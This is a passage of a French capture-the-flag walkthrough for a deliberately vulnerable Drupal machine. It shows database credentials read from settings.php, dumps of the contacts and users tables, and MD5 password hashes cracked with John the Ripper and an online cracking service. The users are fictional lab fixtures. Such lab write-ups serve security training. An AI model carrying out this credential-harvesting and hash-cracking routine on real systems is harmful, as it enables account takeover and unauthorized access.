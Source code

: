 Bon, il ne faut pas fouiller de ce côté.  

Dans le fichier de configuration du *Drupal* (*/var/www/html/events/sites/default/settings.php*) on trouve un identifiant pour la base de données :  

```php
$db_url = 'mysql://root:mysqlpassword@localhost/drupal';
```

Une fois connecté à MySQL on trouve une base contacts :  

```plain
mysql> select * from contact;
+----+--------------------+--------------------------------+--------------+--------------------+
| id | name               | email                          | phone        | org                |
+----+--------------------+--------------------------------+--------------+--------------------+
|  1 | Patrick Fair       | patrick@localhost.localdomain  | 555.123.4567 | Phake Organization |
|  2 | Mr. Important User | important@localhost            | 555.123.4567 | Secret Org         |
|  3 | Jennifer Sea       | jennifer@localhost.localdomain | 555.123.4567 | Phake Organization |
|  4 | Andy Carp          | andy@localhost.localdomain     | 555.123.4567 | Phake Organization |
|  5 | Loren Felt         | loren@localhost.localdomain    | 555.123.4567 | Phake Organization |
|  6 | Amy Pendleton      | amy@localhost.localdomain      | 555.123.4567 | Phake Organization |
+----+--------------------+--------------------------------+--------------+--------------------+
```

Ainsi que la base *Drupal* sur laquelle se cache d'autres identifiants à casser :  

```plain
mysql> select uid,name,pass from users;
+-----+----------+----------------------------------+
| uid | name     | pass                             |
+-----+----------+----------------------------------+
|   0 |          |                                  |
|   1 | jennifer | e3f4150c722e6376d87cd4d43fef0bc5 |
|   2 | patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 |
|   3 | andy     | b64406d23d480b88fe71755b96998a51 |
|   4 | loren    | 6c470dd4a0901d53f7ed677828b23cfd |
|   5 | amy      | e5f0f20b92f7022779015774e90ce917 |
+-----+----------+----------------------------------+
```

Il s'agit de hashs MD5, j'en ai cassé deux via JtR :  

```plain
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 5 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
password         (patrick)
temppass         (amy)
guesses: 2  time: 0:00:00:02 DONE (Mon Jul 14 15:17:54 2014)  c/s: 33511K
```

Et le reste via le site [hashkiller.co.uk](http://www.hashkiller.co.uk/) :  

```plain
andy:newdrupalpass
loren:lorenpass
```
